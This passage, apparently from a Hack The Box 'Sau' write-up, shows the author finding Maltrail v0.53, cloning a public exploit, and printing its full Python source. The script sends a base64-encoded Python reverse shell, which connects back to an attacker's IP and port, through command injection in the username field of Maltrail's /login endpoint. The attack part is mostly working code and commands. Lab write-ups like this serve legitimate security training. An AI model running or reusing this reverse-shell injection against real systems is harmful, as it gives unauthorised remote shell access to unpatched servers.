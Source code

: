 something I do notice down here is that this site is using Maltrail (v0.53). Upon googling, it seems to be a malicious traffic filtering software. I'm not seeing much else that I can do on this site, let's see if there are any CVEs associated with this software.

Sure enough, there is a script from user spookier on github for RCE on the server!

https://github.com/spookier/Maltrail-v0.53-Exploit

``` bash
cd hackthebox
mkdir sau #just creating a folder to store everything

#these next three lines are from spookier's github
git clone https://github.com/spookier/Maltrail-v0.53-Exploit
cd Maltrail-v0.53-Exploit

chmod +x exploit.py #granting execute perms to the files
```

Now let's go ahead and analyze the exploit code:

### Weaponization (done for us)

from: https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py

``` python
import sys;
import os;
import base64;

# accepts main arguments 
def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None
	
# checks number of arguments to ensure correctness
	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
# sets vars based on arguments
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)
	
# curl command that will be used as the payload
def curl_cmd(my_ip, my_port, target_url):
# python on-liner that establishes a socket, grabs the file/socket descriptor 
# and sets the file descriptors so that our revshell is able to use the file
# descriptors for input, output, and error (fd 0,1,2 respectively)
# then it spawns a shell.
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```
